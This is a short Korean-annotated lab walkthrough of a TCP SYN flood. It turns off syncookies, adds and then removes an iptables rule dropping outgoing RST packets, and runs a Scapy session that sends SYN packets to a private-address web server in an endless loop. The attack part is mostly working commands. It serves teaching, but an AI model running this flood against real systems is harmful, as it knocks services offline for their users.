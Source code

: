 
### TCP SYN Flooding

```bash
@kali#1
root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1 ⇐ syncookies를 사용 = backlog que에 SYN 패킷을 저장하지 않음
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"

원활한 실습을 위해서 syncookies 사용을 해지
root@kali:~# sysctl -w net.ipv4.tcp_syncookies=0
net.ipv4.tcp_syncookies = 0
root@kali:~# sysctl -w root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 0
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"


@Kali#2에서 RST 패킷이 외부로 나가지 못 하도록 방화벽에 등록
root@kali:~# iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP



root@kali:~# iptables -L -n ⇐ 방화벽 정책 확인
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  --  0.0.0.0/0            0.0.0.0/0            tcp flags:0x04/0x04

root@kali:~# iptables -D OUTPUT 1 ⇐ 정책 삭제
root@kali:~# iptables -L -n ⇐ OUPUT 첫번째 정책이 삭제된 것을 확인
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination        


@Kali#2
root@kali2:~# scapy
>>> ip = IP()
>>> ip.dst= "192.168.111.130"
>>> tcp = TCP()
>>> tcp.dport = 80
>>> tcp.sport = RandNum(1024,65535)
>>> tcp.flags = "S"
>>> syn = ip/tcp
>>> send(syn, loop=True) ← 무한으로 보내는 옵션

```
